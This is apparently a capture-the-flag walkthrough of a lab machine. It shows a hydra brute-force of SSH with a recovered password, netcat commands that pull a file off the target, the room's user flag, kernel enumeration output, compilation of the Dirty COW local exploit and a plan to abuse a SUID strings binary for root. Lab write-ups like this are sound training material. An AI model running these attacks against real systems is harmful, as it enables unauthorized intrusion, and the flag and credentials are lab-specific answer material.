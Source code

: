
I find jack-password-list file and copy it to my machine to use with hydra:

```php
hydra -l jack -P jackpass.txt -s 80 ssh://10.10.162.47
```

![[Pasted image 20240712084348.png]]

login: jack   
password: ITMJpGGIqg1jn?>@

I log into jacks account via ssh:

i retrieve a jpg image off jacks home file system with nc

Me:
```php
nc -lvp 4444 > FILE
```

Target:
```php
nc <Target> 4444 -w 3 < FILE
```

Opening the file i see:

Userflag:
securi-tay2020_{p3ngu1n-hunt3r-3xtr40rd1n41r3}

---

Now for privesc i'll upload some files:

```ouptu
[-] Kernel information:                                                
Linux jack-of-all-trades 3.16.0-4-amd64 #1 SMP Debian 3.16.7-ckt9-2 (2015-04-13) x86_64 GNU/Linux 
[-] Specific release information:                                                                                                                             PRETTY_NAME="Debian GNU/Linux 8 (jessie)"                                       NAME="Debian GNU/Linux"                                                          VERSION_ID="8"                                                                  VERSION="8 (jessie)"                                                             ID=debian                                                                        HOME_URL="http://www.debian.org/"                                               SUPPORT_URL="http://www.debian.org/support/"      
```

Trying out the dirty cow exploit as L.E.S said it was highly probable.

```php
gcc 40839.c -o cow -lcrypt
```

x11-common, maybe be outdated leading to local priv-esc

linpeas gives me an indication that strings is misconfigured for SUID.

![[Pasted image 20240712101343.png]]

Confirms this is owned by root so we can probably use gtfobins to get root.
